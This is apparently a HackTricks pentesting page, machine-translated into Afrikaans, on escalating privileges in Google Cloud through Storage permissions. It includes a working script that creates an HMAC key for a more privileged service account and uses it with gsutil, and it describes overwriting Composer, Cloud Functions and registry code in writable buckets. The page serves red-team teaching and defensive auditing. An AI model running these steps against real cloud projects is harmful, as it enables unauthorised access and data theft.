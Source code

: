 # GCP - Storage Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Storage

Basiese Inligting:

{% content-ref url="../gcp-services/gcp-storage-enum.md" %}
[gcp-storage-enum.md](../gcp-services/gcp-storage-enum.md)
{% endcontent-ref %}

### `storage.objects.get`

Hierdie toestemming laat jou toe om **lêers wat in Cloud Storage gestoor is af te laai**. Dit sal moontlik jou toelaat om voorregte te verhoog omdat in sommige gevalle **sensitiewe inligting daar gestoor word**. Boonop stoor sommige GCP-dienste hul inligting in emmers:

* **GCP Composer**: Wanneer jy 'n Composer Omgewing skep, sal die **kode van al die DAGs** binne 'n **emmer** gestoor word. Hierdie take kan interessante inligting in hul kode bevat.
* **GCR (Container Registry)**: Die **beeld** van die houers word binne **emmers** gestoor, wat beteken dat as jy die emmers kan lees, jy die beelde sal kan aflaai en **soek na lekke en/of bronkode**.

### `storage.objects.setIamPolicy`

Jy kan jou toestemming gee om **enige van die vorige scenario's van hierdie afdeling te misbruik**.

### **`storage.buckets.setIamPolicy`**

Vir 'n voorbeeld van hoe om toestemmings met hierdie toestemming te wysig, kyk na hierdie bladsy:

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md" %}
[gcp-public-buckets-privilege-escalation.md](../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md)
{% endcontent-ref %}

### `storage.hmacKeys.create`

Cloud Storage se "interoperabiliteit" kenmerk, ontwerp vir **kruis-cloud interaksies** soos met AWS S3, behels die **skepping van HMAC sleutels vir Diensrekeninge en gebruikers**. 'n Aanvaller kan dit misbruik deur **'n HMAC-sleutel vir 'n Diensrekening met verhoogde voorregte te genereer**, wat dus **voorregte binne Cloud Storage verhoog**. Terwyl gebruikers-geassosieerde HMAC-sleutels slegs via die webkonsol verkrygbaar is, bly beide die toegang en geheime sleutels **perpetueel toeganklik**, wat vir potensiële rugsteunstoegang tot stoorplek toelaat. Aan die ander kant is HMAC-sleutels wat aan Diensrekeninge gekoppel is API-toeganklik, maar hul toegang en geheime sleutels is nie na skepping verkrygbaar nie, wat 'n laag van kompleksiteit vir voortdurende toegang byvoeg.

{% code overflow="wrap" %}
```bash
# Create key
gsutil hmac create <sa-email> # You might need to execute this inside a VM instance

## If you have TROUBLES creating the HMAC key this was you can also do it contacting the API directly:
PROJECT_ID = '$PROJECT_ID'
TARGET_SERVICE_ACCOUNT = f"exam-storage-sa-read-flag-3@{PROJECT_ID}.iam.gserviceaccount.com"
ACCESS_TOKEN = "$CLOUDSDK_AUTH_ACCESS_TOKEN"
import requests
import json
key = requests.post(
f'https://www.googleapis.com/storage/v1/projects/{PROJECT_ID}/hmacKeys',
params={'access_token': ACCESS_TOKEN, 'serviceAccountEmail': TARGET_SERVICE_ACCOUNT}
).json()
#print(json.dumps(key, indent=4))
print(f'ID: {key["metadata"]["accessId"]}')
print(f'Secret: {key["secret"]}')


# Configure gsutil to use the HMAC key
gcloud config set pass_credentials_to_gsutil false
gsutil config -a

# Use it
gsutil ls gs://[BUCKET_NAME]

# Restore
gcloud config set pass_credentials_to_gsutil true
```
{% endcode %}

Nog 'n eksploit-skrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/storage.hmacKeys.create.py) gevind word.

## `storage.objects.create`, `storage.objects.delete` = Berging Skryf regte

Om 'n **nuwe objek** binne 'n emmer te **skep**, benodig jy `storage.objects.create` en, volgens [die dokumentasie](https://cloud.google.com/storage/docs/access-control/iam-permissions#object\_permissions), benodig jy ook `storage.objects.delete` om 'n bestaande objek te **wysig**.

'n Baie **gewone eksploitering** van emmers waar jy in die wolk kan skryf, is in die geval waar die **emmer webbediener lêers stoor**, jy mag in staat wees om **nuwe kode** te **stoor** wat deur die webtoepassing gebruik sal word.

### Composer

**Composer** is **Apache Airflow** wat binne GCP bestuur word. Dit het verskeie interessante kenmerke:

* Dit loop binne 'n **GKE-kluster**, so die **SA wat die kluster gebruik, is toeganklik** deur die kode wat binne Composer loop
* Dit stoor die **kode in 'n emmer**, daarom, **enigeen met skryftoegang oor daardie emmer** sal in staat wees om 'n DGA-kode (die kode wat Apache Airflow sal uitvoer) te verander/te voeg\
As jy **skryftoegang oor die emmer het wat Composer gebruik** om die kode te stoor, kan jy **privesc na die SA wat in die GKE-kluster loop**.

### Cloud Functions

* Cloud Functions kode word in Berging gestoor, so **om dit te oorskryf, is dit moontlik om arbitrêre kode uit te voer**.

### App Engine

* App Engine bronkode word in emmers gestoor, **om die kode te oorskryf kan dit moontlik wees om arbitrêre kode uit te voer. DIT IS NIE MOONTLIK NIE**
* **Dit lyk of houerlae in die emmer gestoor word, miskien om dit te verander?**

### GCR

* **Google Container Registry** stoor die beelde binne emmers, as jy **daardie emmers kan skryf**, mag jy in staat wees om **lateraal te beweeg na waar daardie emmers uitgevoer word.**
* Die emmer wat deur GCR gebruik word, sal 'n URL hê wat soortgelyk is aan `gs://<eu/usa/asia/nothing>.artifacts.<project>.appspot.com` (Die topvlak subdomeine is hier gespesifiseer [hier](https://cloud.google.com/container-registry/docs/pushing-and-pulling)).

## **Verwysings**

* [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/#:\~:text=apiKeys.-,create,privileges%20than%20our%20own%20user.](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
